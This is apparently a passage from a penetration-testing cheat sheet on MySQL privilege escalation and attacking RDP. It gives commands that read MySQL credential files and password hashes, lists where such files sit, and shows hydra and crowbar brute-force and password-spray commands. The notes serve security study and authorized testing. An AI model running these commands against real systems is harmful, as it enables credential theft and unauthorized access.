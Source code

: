 ### ROOT MySQL cred UDF Exploit

```sh

https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf

You can use this guide https://steflan-security.com/linux-privilege-escalation-exploiting-user-defined-functions/?source=post_page-----6cc4d6eea356--------------------------------
```


### 2.17.2 Grabbing MySQL Passwords

```sh
# contains plain-text password of the user debian-sys-maint
cat /etc/mysql/debian.cnf

# contains all the hashes of the MySQL users (same as what's in mysql.user table)
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### 2.17.3 Useful MySQL Files

- Configuration Files:
  - Windows
    - config.ini
    - my.ini
    - windows\my.ini
    - winnt\my.ini
    - INSTALL_DIR/mysql/data/
  - Unix
    - my.cnf
    - /etc/my.cnf
    - /etc/mysql/my.cnf
    - /var/lib/mysql/my.cnf
    - ~/.my.cnf
- Command History:cd /
  - ~/.mysql.history
- Log Files:
  - connections.log
  - update.log
  - common.log


## RDP - 3389

**Bruteforce RDP Credentials:**

```sh
# brute force single user's password (watch out for account lockout! check password policy with MSRPC)
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://1

# password spray against list of users
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://VICTIM_IP

https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.2.182/32 -u admin -c Aa123456

```

